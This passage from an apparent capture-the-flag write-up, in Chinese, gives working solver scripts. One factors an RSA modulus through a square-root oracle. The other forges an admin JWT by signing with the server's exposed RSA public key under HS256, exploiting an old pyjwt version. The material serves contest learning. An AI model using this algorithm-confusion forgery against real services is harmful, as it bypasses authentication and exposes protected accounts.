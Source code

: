 ```python

def cal(s):
    recv('> ')
    send(s + '\n')
    recv('\n')
    r = recv('\n')
    if 'Math' in r:
        return None
    return int(r)


recv('65537 = ')
flag = int(recv('\n'))

n = cal('0 - 1') + 1
while True:
    x = random.randint(0, n - 1)
    y = cal('sqrt(' + str(x * x % n) + ')')
    if y is None or (x + y) % n == 0 or x == y:
        continue
    break
p = abs(gcd(x + y, n))
if p == 1:
    p = abs(gcd(x - y, n))
q = n // p
d = invert(65537, (p - 1) * (q - 1))
flag = pow(flag, d, n)
print(int(flag).to_bytes(100, 'big'))
```

## 普通的身份认证器

先进行一些尝试，访问 `/token` 会得到一个 jwt，而 `/profile` 应该会根据 jwt 中的 sub 返回 flag。

查看 fastapi 文档，得知会有一个 `/docs`，访问可以看到一个 `/debug` 操作，访问可以得到 jwt 的公钥。

Google 了很久，最后发现，在某些库的低版本中，如果指定加密方式为 HS256，但是传入 RSA 密钥，他会用公钥当作密码来计算。尝试发现此方法正确。

```python
import requests
import base64
import json
import time
import jwt  # pip install pyjwt==0.4.3


htoken = 'xxx:xxx'
url = 'http://202.38.93.111:10092/debug'

r = requests.post(url, json={'1': 2})
print(r.text)
pubkey = r.json()['PUBLIC_KEY']

s = {"sub": "admin", "exp": int(time.time() + 1800)}
token = jwt.encode(s, pubkey, algorithm='HS256').decode()

url = 'http://202.38.93.111:10092/profile'
r = requests.get(url, headers={'Authorization': 'Bearer ' + token, 'Hg-Token': htoken})
print(r.text)
```
